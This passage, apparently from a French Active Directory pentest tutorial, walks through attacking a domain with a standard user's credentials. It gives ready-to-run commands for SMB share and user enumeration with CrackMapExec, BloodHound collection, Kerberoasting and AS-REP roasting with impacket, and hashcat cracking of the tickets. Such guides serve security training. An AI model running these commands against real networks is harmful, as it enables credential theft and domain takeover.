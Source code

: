 Supposons que nous avons obtenu les identifiants d'un utilisateur standard : `utilisateur:Password123`

```bash
# Énumération SMB avec CrackMapExec
crackmapexec smb 192.168.1.0/24 -u utilisateur -p 'Password123' --shares

# Énumération des utilisateurs du domaine
crackmapexec smb 192.168.1.100 -u utilisateur -p 'Password123' --users

# Énumération des groupes du domaine
crackmapexec smb 192.168.1.100 -u utilisateur -p 'Password123' --groups
```

#### Étape 3 : Collecte d'informations avec BloodHound

```bash
# Collecte de données avec BloodHound-Python
bloodhound-python -d entreprise.local -u utilisateur -p 'Password123' -ns 192.168.1.100 -c All

# Démarrer Neo4j (requis pour BloodHound)
sudo neo4j start

# Démarrer BloodHound
bloodhound
```

Dans l'interface BloodHound :
1. Connectez-vous avec les identifiants par défaut (neo4j:neo4j)
2. Importez les fichiers JSON générés par bloodhound-python
3. Utilisez les requêtes prédéfinies pour identifier les chemins d'attaque potentiels

![Interface de BloodHound](https://private-us-east-1.manuscdn.com/sessionFile/jcHCAhVPJ8du7yivbhNa7i/sandbox/bv64JsgWaaoCVpzlYcQPgo-images_1749757851073_na1fn_L2hvbWUvdWJ1bnR1L2d1aWRlLWV4ZWdvbC9pbWcvUjlYT0lHc3hZdmNM.png?Policy=eyJTdGF0ZW1lbnQiOlt7IlJlc291cmNlIjoiaHR0cHM6Ly9wcml2YXRlLXVzLWVhc3QtMS5tYW51c2Nkbi5jb20vc2Vzc2lvbkZpbGUvamNIQ0FoVlBKOGR1N3lpdmJoTmE3aS9zYW5kYm94L2J2NjRKc2dXYWFvQ1ZwemxZY1FQZ28taW1hZ2VzXzE3NDk3NTc4NTEwNzNfbmExZm5fTDJodmJXVXZkV0oxYm5SMUwyZDFhV1JsTFdWNFpXZHZiQzlwYldjdlVqbFlUMGxIYzNoWmRtTk0ucG5nIiwiQ29uZGl0aW9uIjp7IkRhdGVMZXNzVGhhbiI6eyJBV1M6RXBvY2hUaW1lIjoxNzY3MjI1NjAwfX19XX0_&Key-Pair-Id=K2HSFNDJXOU9YS&Signature=BChpOXOoec4iFEU7RnMD6q57nXpBt~38WxmCGcn3NTvMcN4iGYy-HNYPtbIaQ1JM-UjatiyOTZ4MT~s6q9QMkVzrHDpm93s2WEWRJDfu02~4qJmz2tH5qLOBSfyO5zlBdFre3e~jXLrQzyvgYt8R9NZJQ0uGPndB1dqYBafTxNRA1C50BohAemCGkZgBEvHADPa0YZ0OGzKBHbXgDh7-lniQjGc7doHL6K-0Oivc~fOsg16PpZuC8QmR5ndyekesKPolJA66cKIF5ZglsyR7BWFR7-VUjztzBEWbsakwheSWLQ8FByzF~EJ5mHBpDxGEJUkjm8Oe9qIjcX~ZuLB5jw__)
*Interface de BloodHound montrant les relations dans Active Directory*

#### Étape 4 : Exploitation de Kerberoasting

Le Kerberoasting est une technique qui cible les comptes de service avec des SPN (Service Principal Names) pour obtenir des tickets TGS que l'on peut cracker hors ligne.

```bash
# Identifier les comptes de service avec GetUserSPNs.py
impacket-GetUserSPNs entreprise.local/utilisateur:Password123 -dc-ip 192.168.1.100 -request

# Cracker les tickets avec Hashcat
hashcat -m 13100 spn_hashes.txt /usr/share/wordlists/rockyou.txt --force
```

#### Étape 5 : Exploitation d'AS-REP Roasting

Cette technique cible les comptes qui n'ont pas l'option "Kerberos Pre-Authentication" activée.

```bash
# Identifier les comptes vulnérables
impacket-GetNPUsers entreprise.local/ -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt -dc-ip 192.168.1.100

# Cracker les hashes
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt --force
```
